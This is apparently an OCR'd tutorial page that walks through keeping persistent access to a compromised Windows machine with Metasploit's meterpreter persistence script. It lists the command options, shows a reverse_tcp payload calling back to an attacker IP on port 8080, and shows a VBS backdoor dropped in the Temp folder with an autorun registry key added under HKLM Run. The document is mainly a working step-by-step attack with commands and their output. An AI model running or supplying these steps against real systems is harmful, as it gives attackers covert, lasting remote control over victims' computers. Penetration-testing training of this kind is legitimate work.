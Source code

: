
The exploitation process works in this way:

1. Upload the backdoor to the victim 

2. Execute the file. At prefixed times (ie, 5-6-10 seconds), it will try to connect back to our
listener 

3. Run it automatically at boot. Depending on the OS, this can be done by editing the Windows 
registry, services, schedules, rc.local, init.d


Thanks to Metasploit, the entire process can be completely automated. We do not have to worry 
about scripting the file, uploading it or editing the registers and services 

What we have to do once we have the meterpreter session, is run one of the scripts we will see in
in a minute and then, each time we want to connect back, start a listener on our machine

Notice that the script only works against Windows machines


Before running the scripts lets see what options is offers

meterpreter > run persistence -h 

This command will show options to customize the script and choose where to upload the file, which 
payload to use, the interval between each connection attempt, how to start the backdoor and so on 


Lets see which options we will use in order to configure it correctly:

-A starts the handler on our machine
-X start the agent at boot (note, this requires system privs on the target)
-i 5 connection attempts every 5 seconds
-p 8080 the port for the connect back 
-r [IP_address] our IP


Once we run it, the script automatically creates a backdoor, uploads it and sets the registry keys
to start at boot


The steps in detail are as follows

1. Creating the paylod: 
Creating Payload=windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=8080

2. Uploading the backdoor file:
persistent script written to C:\Windows\TEMP\flKiuvjydy.vbs

3. Executing the backdoor:
Executing script C:\Windows\Temp\flKiuvjydy.vbs

4. Add the entry in the Windows Registry:
Installing into autorun as
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\nZVDeQbFvEi


Lets double check that te changes are real. Lets first get the registry value with the "reg" command 
and then list the files in the path where the backdoor has been uploaded

meterpreter> reg queryval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v nZVDeQbFvEi
